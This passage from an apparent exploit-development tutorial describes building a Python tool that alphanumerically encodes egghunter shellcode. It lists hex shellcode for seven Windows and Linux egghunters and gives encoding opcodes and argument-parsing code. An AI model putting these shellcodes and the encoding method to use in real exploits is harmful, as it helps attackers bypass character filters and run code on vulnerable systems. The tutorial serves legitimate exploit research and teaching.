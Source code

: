 6. Print Loop:<br>
   * Block begins with op codes for <code>zero eax</code>:<br>
     * <b>\x25\x4a\x4d\x4e\x55</b><br>
     * <b>\x25\x35\x32\x31\x2a</b><br> 
   * For three consecutive operands:<br>
     * Append <b>\x2d</b> to operand  <br>
     * Print operand  <br>
   * Block ends with op code for <code>push eax</code><br>
   * If more operands left, loop back to step 6a.


In Part 2 of this series, we'll go on to explore how we can use functions that generate integer partitions to help us automate the encoding process. 



### Parsing Arguments
For Step 1, instead of making the user pass in an egghunter as an argument, we can instead provide hardcoded egghunters as menu options for users to select. This way we can avoid unnecessarily long arguments.

For the egghunter menu, we'll use a list of egghunters gathered from Matt Miller's infamous <a href="http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf" target="_blank">paper</a>. Instead of restricting the user to a predefined tag, we can use placeholder characters and allow the user to specify a custom tag.

We'll use the <a href="https://docs.python.org/3/library/argparse.html" target="_blank">argparse</a> library so users can specify options using flags.

```py
'''
--------------
Egghunter menu:
--------------
0: Windows SEH
1: Windows IsBadReadPtr
2: Windows NtDisplayString
3: Windows NtAccessCheckandAuditAlarm
4: Linux access(2)
5: Linux access(2) revisited
6: Linux sigaction(2)
'''
egghunter_map = {
    0: "EB2159B8????????516AFF33DB6489236A02598BFBF3AF7507FFE76681CBFF0F43EBEDE8DAFFFFFF6A0C598B040CB1B8830408065883C4105033C0C3",
    1: "33DB6681CBFF0F436A0853B80D5BE777FFD085C075ECB8????????8BFBAF75E7AF75E4FFE7",
    2: "6681CAFF0F42526A4358CD2E3C055A74EFB8????????8BFAAF75EAAF75E7FFE7",
    3: "6681CAFF0F42526A0258CD2E3C055A74EFB8????????8BFAAF75EAAF75E7FFE7",
    4: "BB????????31C9F7E16681CAFF0F42608D5A04B021CD803CF26174ED391A75EE395A0475E9FFE2",
    5: "31D26681CAFF0F428D5A046A2158CD803CF274EEB8????????89D7AF75E9AF75E6FFE7",
    6: "6681C9FF0F416A4358CD803CF274F1B8????????89CFAF75ECAF75E9FFE7"
}



'''
Uses argparse to accept arguments
Arguments: bad, egghunter, pad, tag
'''
def check_args(args):
    ap = argparse.ArgumentParser(description = "Alphanumeric egghunter stack pusher",
                                 formatter_class = argparse.RawTextHelpFormatter)
    ap.add_argument("-b", "--bad", metavar="BAD CHARS",
                    help = "Bad characters to exclude in payload\n"
                           "e.g. '\\x00\\xb4\\xd9'\n"
                           "Default: Non-alphanumeric characters",
```